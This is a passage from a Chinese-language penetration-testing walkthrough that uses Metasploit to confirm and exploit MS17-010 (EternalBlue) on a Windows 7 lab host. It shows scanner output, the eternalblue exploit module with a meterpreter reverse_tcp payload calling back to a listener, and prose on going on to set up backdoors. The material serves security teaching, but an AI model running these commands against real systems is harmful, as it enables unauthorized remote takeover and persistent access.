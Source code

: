 ```
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.1.7
RHOSTS => 192.168.1.7
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 192.168.1.7:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7600 x64 (64-bit)
[*] 192.168.1.7:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed



```  
#### 5.2 漏洞利用  
1. 到此，我们从发现445端口开启，到验证永恒之蓝漏洞的存在，下一步就是漏洞利用，在前面我们已经搜索到永恒之蓝的两个漏洞利用模块，此处使用第一个进行测试。使用命令use exploit/windows/smb/ms17_010_eternalblue进入该模块，并输入命令options查看所需参数。  
  
```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Win dows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.128    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



```  
1. 在参数查询结果中，可以看到必填项中有RHOSTS还未设置信息，使用set命令设置参数后使用run命令运行该模块。可以看到漏洞已经利用成功，接下去就可以设置用户及其他留后门的手段了。  
  